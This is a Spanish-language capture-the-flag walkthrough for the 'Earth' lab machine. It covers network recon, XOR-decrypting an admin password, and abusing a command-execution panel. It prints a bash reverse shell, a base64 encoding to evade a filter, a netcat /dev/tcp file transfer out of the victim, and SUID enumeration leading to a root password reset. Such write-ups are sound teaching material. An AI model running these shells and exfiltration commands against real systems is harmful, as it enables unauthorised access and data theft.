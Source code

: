 - Comenzamos obteniendo la ip de nuestra maquina para buscar las IP dentro de la red y encontrar la maquina victima.
```
ifconfig 
```

- Con " netdiscover " buscaremos los dispositivos conectados al segmento de red de nuestro equipo
	```
	sudo netdiscover -r 192.168.1.0/24
	```

- Con " nmap " buscaremos los puertos y las versiones de los servicios que consumen estos puertos para el análisis de vulnerabilidades.
	```
	sudo nmap -sV -A -T5 192.168.1.28
	```
	- Encontramos los puertos abiertos:
		- 22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
		- 80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
		- 443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)

- Revisando la pagina web el código fuente, NO encontramos nada que nos pueda ayudar
	- ![flag-root](imagenes/web.png)


- Por lo que realizaremos una enumeración de directorios utilizando " dirb ":
	```
	sudo dirb http://192.168.1.28/
	```
	- El cual nos deja un directorio al descubierto " http://192.168.1.28/cgi-bin/ ", el cual si entramos nos muestra que no tenemos permisos.
  		- ![flag-root](imagenes/forbidden.png)
 

- En nmap encontramos un certificado ssl por el puerto 443 por lo que procedemos configurar la resolución del DNS.
- Entramos a " /etc/hosts/ " con " nano " y configuramos para la IP de la maquina
	```
	sudo nano /etc/hosts/
	```
	
	```
	192.168.1.28 earth.local
	192.168.1.28 terratest.earth.loca
	```

	- Verificamos la web " erath.local " y nos muestra la paguina
  		- ![flag-root](imagenes/earth.png)


- Utilizando " dirb http://earth.local/ " obtenemos los siguiente:
	- http://earth.local/admin
	- http://earth.local/cgi-bin/
- Utilizando " dirb https://terratest.earth.local/ ":
	- https://terratest.earth.local/cgi-bin/
	- https://terratest.earth.local/index.html
	- https://terratest.earth.local/robots.txt

- Revisando el " robot.txt " encontramos lo siguiente:
 	- ![flag-root](imagenes/robot.png)
	- Donde revisando la parte de abajo del " robot.txt " vemos que existe " /testingnotes.* "
 	- ![flag-root](imagenes/testingnotes.png) 
	- La nota nos comenta que usan " XOR " como algoritmo de encriptación.
	- Nos dan una txt " testdata.txt " que se usan para las pruebas.
	- Y nos dan el nombre del aministrador del portal  " terra "

- Entramos a revisar " testdata.txt " para ver lo que contiene:
 	- ![flag-root](imagenes/testdata.png)  

- Nos decian que " testdata.txt " se usaba para las pruebas:
	- According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
- Con " cyberChef " vamos a ir probando cada mensaje de encriptación que nos muestra la paguina, utilizando la key que contiene " testdata.txt ".
 	- ![flag-root](imagenes/test.png) 
 	- ![flag-root](imagenes/cyberchef.png)
- Nos damos cuenta que la palabra se repite " earthclimatechangebad4humans "

- Ya podemos hacer prueba de logueo " http://earth.local/admin/login "
	- Tenemos usuario y contraseña:
		- terra
		- earthclimatechangebad4humans
	- Nos manda la siguiente pantalla:
  		- ![flag-root](imagenes/commandtool.png)

- En esta pantalla vemos que podemos insertar comandos por lo que podemos hacer una shellrevers para crear una conexión remota.
- Utilizando " shells " https://github.com/4ndr34z/shells podremos automatizar la creación de shells para la conexión remota.
- INSTALACIÓN:
	- git clone https://github.com/4ndr34z/shells
	- cd shells
	- ./install.sh
- EJECUCIÓN:
	- PASO 1: elegimos " 3) BASH " para crear un script en bash
  		- ![flag-root](imagenes/paso1.png)
	- PASO 2: Aquí pondremos la IP de la maquina atacante y el puerto por donde se comunicara con la maquina victima, y elegimos la opción " 1) NORMAL ".
  		- ![flag-root](imagenes/paso2.png)
	- PASO 3: elegimos la opción " 1) No encoding TCP "
  		- ![flag-root](imagenes/paso3.png)
	- PASO 4: elegimos la opción " 1) rlwrap nc tcp " y le colocamos " n " para que la sesión este en la misma terminal.
  		- ![flag-root](imagenes/paso4.png)
	- PASO 5: ahora estamos listos en mandar el script de conexión remota al CLI de la victima.
		- sh -i >& /dev/tcp/192.168.1.113/443 0>&1
  		- ![flag-root](imagenes/paso5.png)
		- Vemos que no nos permite la conexión remota:
   			- ![flag-root](imagenes/NOconecction.png) 
		- Por lo que vamos a tener que cifrar y decifrar el script.
		- echo 'sh -i >& /dev/tcp/192.168.1.113/443 0>&1' | base64
			- c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExMy80NDMgMD4mMQo=
		- Quedaria de la siguiente manera:
			- echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExMy80NDMgMD4mMQo=' | base64 -d | bash
  		- ![flag-root](imagenes/cli_conexión.png)
		- Revisamos la conexión y vemos que ya entramos:
   			- ![flag-root](imagenes/sistem.png)
- Hora posemos buscar las flags del reto:
	- FLAG-USER:
  		- ![flag-root](imagenes/flagUSER.png)
	- FLAG-ROOT:
		- Usando una busqueda de permisos de archivos root: 
		- find / -perm -u=s -type f 2>/dev/null
  		- ![flag-root](imagenes/fileroot.png)
		- Revisamos todos los archivos el " reset_root " parece algo extraño por lo que procedemos a verificarlo y ejecutarlo.
		- Para ello lo enviaremos a nuestra maquina atacante por medio de " netcat "
		- Abrimos una  nueva terminal y ejecutamos:
		- " nc -lvnp 3333 > reset_root  "
  		- ![flag-root](imagenes/netcat_root.png)
		- Y en la maquina victima ponemos:
		- " cat /usr/bin/reset_root > /dev/tcp/192.168.1.113/3333 "
		- Se descarga el archivo en la ruta actual:
  		- ![flag-root](imagenes/netcat_root.png)
	- LE DAMOS PERMISOS AL " reset_root ":
		- ``` chmod +x reset_root ```
	- EJECUTAMOS:
		- ``` ltrace ./reset_root ```
  		- ![flag-root](imagenes/ltrace.png)
	
- NOS REGRESAMOS A LA MAQUINA VICTIMA PARA CREAR ESOS ARCHIVOS QUE NOS FALTAN

```
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```

- UNA VES CREADO LOS ARCHIVOS EN LA MAQUINA VICTIMA, PROCEDEMOS A EJECUTAR OTRA VES " reset_root " PARA RESTABLECER LAS CREDENCIALES DEL USER-ROOT.

```
reset_root
```

- Y LA CONTRASEÑA ROOT SE RESTABLECE A  " Earth "
 	- ![flag-root](imagenes/pass-root.png)

- INICIAMOS SESIÓN COMO ROOT:
	- ![[root.png]]

- BUSCAMOS LA FLAG DEL ROOT QUE NOS FALTA:

```
cat /root/root_flag.txt
```

- ![flag-root](imagenes/flag-root.png)



